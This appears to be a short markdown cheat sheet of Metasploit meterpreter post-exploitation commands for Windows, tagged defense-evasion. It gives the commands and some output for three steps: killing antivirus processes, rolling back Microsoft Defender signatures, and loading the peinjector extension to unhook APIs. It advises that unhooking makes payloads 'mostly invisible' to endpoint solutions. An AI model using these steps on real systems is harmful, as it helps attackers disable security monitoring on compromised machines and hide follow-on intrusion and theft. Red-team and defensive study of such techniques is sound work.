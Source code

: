 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - security-endpoints
  - coff-loader
  - metasploit-framework
---
```

#  Metasploit

## 01 - Disable Endpoints

```
meterpreter > run post/windows/manage/killav
```

## 02 - Remove Definitions

```
meterpreter > run post/windows/manage/rollback_defender_signatures action=rollback
```

## 03 - Unhook APIs

> [!INFO]
> This will make your payload mostly invisible from most endpoint solutions. Use this technique often when executing offensive tools in the memory.

Load the extension.

```
meterpreter > load peinjector

..[omitted]..
Unhook Commands
===============

    Command       Description
    -------       -----------
    unhook_pe     Unhook the current process
```

Unhook runtime.

```
meterpreter > unhook_pe
[+] Command execution completed:
[0, 0, nil]
```